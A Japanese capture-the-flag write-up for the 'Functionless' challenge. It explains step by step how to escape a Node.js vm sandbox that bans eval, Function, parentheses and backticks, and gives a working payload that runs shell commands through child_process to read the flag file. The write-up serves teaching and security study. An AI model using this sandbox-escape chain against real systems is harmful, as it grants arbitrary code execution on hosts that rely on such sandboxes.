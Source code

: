 # Functionless Writeup (ja)

## 作者

@n4o847

## 問題概要

- 入力されたコードが Node.js の [vm](https://nodejs.org/api/vm.html) モジュールで実行される
- `eval` の呼び出しや関数コンストラクタ (`Function` など) が禁止されている
- 入力には `(`, `)`, <code>`</code> のいずれの文字も含まれてはいけない

## 脆弱性

まず、`this` はコンテキスト外で作られたオブジェクトを参照していることから、`this.constructor.constructor` とすることで VM 外の `Function` コンストラクタを得られることが知られています。

この VM 外の `Function` の使用は `codeGeneration: { strings: false }` の制約によって禁止されていない上に、外のグローバルオブジェクトにアクセスできます。

```js
this.constructor.constructor("console.log(process)")()
```

次に、検索すると、括弧やバッククオートを使わない関数呼び出しで Node.js でも使えるものとして以下が出てきます。

```js
x instanceof {[Symbol.hasInstance]: f}
```

これは

```js
!!f.call({}, x)

// or simply
!!f(x)
```

と等価になります。
ここで、

- 関数 `f` の引数が 1 つしか与えられないこと
- その結果が論理値としてしか取得できないこと

が問題となります。

これと `Function` コンストラクタを組み合わせてうまく任意コード実行をしたいですが、`Function(code)()` のように 2 回連続で呼び出す必要があり難しいです。

関数を呼び出した結果を再び得る方法として、`Array.prototype.reduce` を使った以下の方法を考えます。

```js
a = [x, y, z]
a[Symbol.hasInstance] = Array.prototype.reduce
f instanceof a
```

これは

```js
a = [x, y, z]
!!a.reduce(f)
```

と等価になり、展開すると

```js
a = [x, y, z]
f(f(x, y, 1, a), z, 2, a)
```

と等価になります。

`f` が引数のどちらかをどちらかに適用するような関数だと良いです。

`f = Array.from` としてみると

```js
a = [x, y, z]
!!Array.from(Array.from(x, y, 1, a), z, 2, a)
```

となり、`x` が配列であれば

```js
!!x.map(y, 1).map(z, 2)
```

と等価になります。
さらに、`x` が要素 1 つの配列であれば

```js
!!z.call(2, y.call(1, x[0], 0), 1)

// or simply
!!z(y(x[0], 0), 1)
```

と等価になります。

`y = Function` とすれば `y(x[0], 0)` の結果が `z` に渡されますが、余計な 2 番目の引数 `0` が関数の本体として渡されています。

ですが、デフォルト引数を使えば `Function` の引数部分にも任意の式を書くことができます。

```js
f = Function("x = console.log(42)", "0")
f()  // output: 42
```

よって

```js
a = [["x = <code>"], this.constructor.constructor, _ => f = _]
a[Symbol.hasInstance] = Array.prototype.reduce
Array.from instanceof a
```

とすれば任意コードを実行する関数 `f` が得られ、デフォルト引数が評価されるように呼び出せば

```js
+{ valueOf: f }
```

で任意コードが実行できます。

## 解法

```js
c = "process.stdout.write\x28process.mainModule.require\x28'child_process'\x29.execSync\x28'cat flag-*.txt'\x29\x29"
a = [["x = " + c], this.constructor.constructor, _ => f = _]
a[Symbol.hasInstance] = Array.prototype.reduce
Array.from instanceof a
+{ valueOf: f }
```

